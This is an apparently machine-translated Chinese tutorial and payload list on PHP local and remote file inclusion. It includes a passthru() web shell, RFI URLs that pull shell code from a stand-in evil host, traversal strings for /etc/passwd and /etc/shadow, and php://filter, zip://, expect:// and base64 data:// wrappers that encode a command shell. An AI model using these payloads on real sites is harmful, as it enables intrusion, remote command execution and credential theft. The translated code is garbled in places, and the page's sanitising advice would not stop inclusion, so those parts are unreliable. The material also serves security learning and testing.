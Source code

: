 # RFI/LFI:本地/远程文件包含

> 原文：<https://kalilinuxtutorials.com/rfi-lfi-local-remote-file-inclusion/>

[![RFI/LFI : Local/Remote File Inclusion](img/02483fb5f5fab1358ee52639fa603dac.png "RFI/LFI : Local/Remote File Inclusion")](https://1.bp.blogspot.com/-d4WKNez3ZNE/XdBZbsdiTrI/AAAAAAAADdQ/nmhAzdgR7cYOtPsyWfjcQ05bPW0arFvpACLcBGAsYHQ/s1600/rfi-lfi.png)

让我们看一下 RFI/LFI 的有效载荷列表。与许多攻击一样，远程和本地文件包含只是编码结束时的一个问题。当然需要第二个人来拥有。

现在，这篇文章将有望让您了解如何保护您的网站，最重要的是保护您的代码免受文件包含漏洞的攻击。我将以 PHP 格式给出代码示例。

让我们来看看使 RFI / LFI 漏洞成为可能的一些代码。

**< a href=index.php？page = file 1 . PHP files</a>
<？PHP
$ page = $ _ GET[page]；
包含(＄page)；
？>**

显然这不应该被使用。$ page 条目没有完全清除。$页面输入直接指向该死的网页，这是一个大大的“不”。总是删除任何通过浏览器的输入。当用户在访问网页时点击“文件”访问“files.php”时，会出现类似这样的东西。

**也读作-[RSDL:用 Ping 方法扫描子域](https://kalilinuxtutorials.com/rsdl-subdomain-scan-with-ping-method/)**

**http: //localhost/index.php？page = files.php**

现在，如果没有人清除$ page 变量中的输入，我们可以让它指向我们想要的。如果托管在 unix / linux 服务器上，我们可以将密码显示为阴影或未清理变量输入的配置文件。

查看服务器上的文件是一种“本地文件包含”或 LFI 利用。这不比 RFI 漏洞更糟糕。

**http: //localhost/index.php？页面=../ ../ ../ ../ ../ ../ etc / passwd**

代码可能会返回到/ etc / passwd。现在让我们来看看这个漏洞的 RFI 方面。让我们拿一些我们以前用过的代码。

**< a href=index.php？page=file1.php >文件< /a >
<？PHP
$ page = $ _ GET[page]；
包含(＄page)；
？>**

现在假设我们写了这样的东西…

**http: //localhost/index.php？page = http: //google.com/**

大概在页面上最初放置$ page 变量的地方，我们会看到 google.com 主页。这是编码者可能受到伤害的地方。我们都知道 c99 (shell)可以做什么，如果编码人员小心的话，它们可能会被包含在页面中，允许用户在适当的时候浏览敏感文件和联系人。让我们看看在网页上发生的更简单的事情。更快更肮脏地利用 RFI 对你有利。现在，创建一个名为“test.php”的文件，将以下代码放入其中并保存。

**T4？PHP
passthru($ _ GET[cmd])；
？>**

现在，您可以利用这个文件将它包含在利用 RFI 的页面中。PHP 中的 passthru()命令很邪门，很多主机称之为“出于安全原因暂停服务”。使用 test.php 的这段代码，我们可以向网页发送请求，包括文件包含漏洞利用。

**http: //localhost/index.php？page = http://some evill host . com/test . PHP**

当代码发出$ _GET 请求时，我们必须提供一个命令传递给 passthru()。我们可以这样做。

**http: //localhost/index.php？page = http://some evil host . com/test . PHP？cmd = cat / etc / passwd**

这台 unix 机器还将使用 cat 命令提取文件/ etc / passwd。现在我们知道如何利用 RFI 漏洞，现在我们需要知道如何控制它，使任何人都无法执行命令，以及如何在您的服务器上包含远程页面。首先，我们可以禁用 passthru()。但是你的站点上的任何东西都可以再次使用它(希望不会)。但这是你唯一能做的。我建议像我之前说的那样清洁输入。现在，我们可以在函数中使用一些 PHP 建议的结构，而不仅仅是将变量直接传递给页面。最初，perl 中的 chop()被用于 PHP，它从数组中删除了空格。我们可以这样使用它。

**< a href=index.php？page=file1.php >文件< /a >
<？PHP
$ page = chop($ _ GET[page])；
包含(＄page)；
？>**

有很多函数可以清除字符串。htmlspecialchars () htmlentities()、stripslashes()等等。在困惑方面，我更喜欢用自己的函数。我们可以在 PHP 中做一个功能，可以为你清除一切，这里我为你准备了一些关于这门课程的简单快捷的东西。

**<？Php
函数 clean all($ input){
$ input = strip _ tags($ input)；
$ input = htmlspecialchars($ input)；
return(＄input)；
}
？>**

现在我希望你能看到这个函数内部发生了什么，这样你就可以添加你的了。我建议使用 str_replace()函数，还有很多其他函数可以清除它们。体谅和停止 RFI 和 LFI 剥削狂热！

**基本 LFI(空字节、双编码等招数):**

http://example.com/index.php?page=etc/passwd·http://example.com/index.php?page=etc/passwd%00·http://example.com/index.php?page=../../etc/passwd·http://example.com/index.php?page=%252e%252e%252f·http://example.com/index.php?page=….//….//etc/passwd

要查看的有趣文件:

/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/motd
/etc/MySQL/my . CNF
/proc/[0-9]*/FD/[0-9]*(第一个数字是 PID，第二个是文件描述符)
/proc/self/environ
/proc/version
/proc/cmdline

#### 基本 RFI(空字节、双编码等招数) :

**http://example.com/index.php?page=http://evil.com/shell.txt http://example.com/index.php?page = http://evil . com/shell . txt % 00 http://example.com/index.php?page = http:% 252 f % 252 fevil . com % 252 fshell . txt**

**LFI / RFI 包装:**

LFI 包装 rot13 和 base64-PHP://filter 不区分大小写。

http://example.com/index.php?page = PHP://filter/read = string . rot13/resource = index . PHP http://example.com/index.php?page = PHP://filter/convert . base64-encode/resource = index . PHP http://example.com/index.php?page = pHp://FilTer/convert . base64-encode/resource = index . pHp

可以用压缩包装器链接。http://example.com/index.php?page = PHP://filter/zlib . deflate/convert . base64-encode/resource =/etc/passwd

**LFI 包装邮编:**

echo "" payload . PHP；
zip payload . zip payload.php；【shell.jpg】mv payload . zip；
RM payload.php
http://example.com/index.php?page = zip://shell . jpg % 23 payload . PHP

**RFI 包装数据，有效负载:**

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

**RFI 包装期望:**

http://example.com/index.php?page=php:expect://id·http://example.com/index.php?page=php:expect://ls

**XSS 经 RFI/LFI，有效载荷:**

http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+

**LFI 到 RCE 途经/proc/*/fd :**

*   上传大量 shells(例如:100)
*   用$PID =进程的 PID(可以强制执行)和$FD 文件描述符(也可以强制执行)包含[http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD)

**LFI 到 RCE 途经上传:**

http://example.com/index.php?page=path/to/uploaded/file.png

[**Download**](https://github.com/payloadbox/rfi-lfi-payload-list)